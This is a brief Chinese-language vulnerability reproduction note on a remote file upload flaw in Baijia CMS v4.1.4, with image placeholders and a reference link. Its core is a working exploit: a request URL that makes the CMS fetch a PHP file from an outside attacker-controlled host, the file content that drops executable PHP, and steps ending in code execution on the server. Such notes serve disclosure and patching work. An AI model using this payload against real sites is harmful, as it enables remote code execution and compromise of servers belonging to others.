 ```yaml
---
title: "百家cms v4.1.4 远程文件上传漏洞"
id: zhfly3326
---
```


# 百家cms v4.1.4 远程文件上传漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# 需要后台权限
http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php 
```

远程服务器起一个/test/test.php，内容为**<?php echo "<?php phpinfo();";**

![image](../img/39999f90abcf972682a6189f75090a48.png)

访问payload，得到路径

![image](../img/56af57b31855bc82a23a1c6c00f35eda.png)

访问路径，执行代码

![image](../img/517a7a6d2e5f0382649af0125913612d.png)

查看本地文件

![image](../img/31fb994977a2034251065c0934491eff.png)

## 参考链接

> https://xz.aliyun.com/t/7542